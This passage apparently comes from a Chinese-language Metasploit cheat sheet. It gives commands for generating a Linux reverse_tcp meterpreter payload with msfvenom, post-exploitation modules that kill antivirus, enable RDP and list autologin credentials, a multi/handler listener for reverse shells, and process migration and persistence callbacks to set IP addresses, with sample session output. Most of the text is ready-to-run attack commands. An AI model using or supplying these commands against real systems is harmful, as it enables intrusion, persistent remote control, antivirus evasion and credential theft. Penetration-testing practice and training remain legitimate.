 **Linux**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.1.1.15 LPORT=6666 -f elf > msf.elf
```
# 后渗透模块（Post）

```bash
run post/windows/gather/checkvm		#检查目标是否虚拟机
run post/linux/gather/checkvm
run post/windows/manage/killav		#关闭杀软
run post/windows/manage/enable_rdp	#开启目标远程桌面
run post/windows/gather/enum_logged_on_users	#列举当前登陆用户，和最近登陆过的用户
run post/windows/gather/enum_applications		#列举应用程序
run windows/gather/credentials/windows_autologin#列举自动登陆的用户名和密码
```

MSF官方后渗透模块参考：https://www.offensive-security.com/metasploit-unleashed/post-module-reference/ 

# 监听反弹shell

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp    #payload要和持久化所用模块的payload对应
msf5 exploit(multi/handler) > set LHOST 10.1.1.15
msf5 exploit(multi/handler) > set LPORT 6666
msf5 exploit(multi/handler) > run
```

# Meterpreter
## 持久化
 刚获得`Meterpreter Shell`时，该Shell是极其脆弱的，可以把它和目标机中一个稳定的程序绑定
 
 NT AUTHORITY\SYSTEM 這個帳號通常是隱藏的，就是傳說中的Windows至高無上權限帳號，跟Administrators擁有相同文件權限
 
```bash
getpid			#查看当前Meterpreter Shell的进程号
ps				#获取目标机正运行的进程
migrate 476		#将shell迁移到PID为786的进程中
```
## Persistence模块
```bash
run persistence -h    #查看persistence模块帮助信息、参数。

#举例
run persistence -X -i 10 -p 12397 -r 192.168.34.132    
#若监听时一直报错，换个监听端口即可。
[*] Started reverse TCP handler on 10.100.130.180:4444 
[-] Command shell session 1 is not valid and will be closed 
[*] 10.100.131.192 - Command shell session 1 closed. 
[-] Command shell session 2 is not valid and will be closed 
[*] 10.100.131.192 - Command shell session 2 closed. 
[-] Command shell session 3 is not valid and will be closed 
[*] 10.100.131.192 - Command shell session 3 closed.
```
## 命令摘要
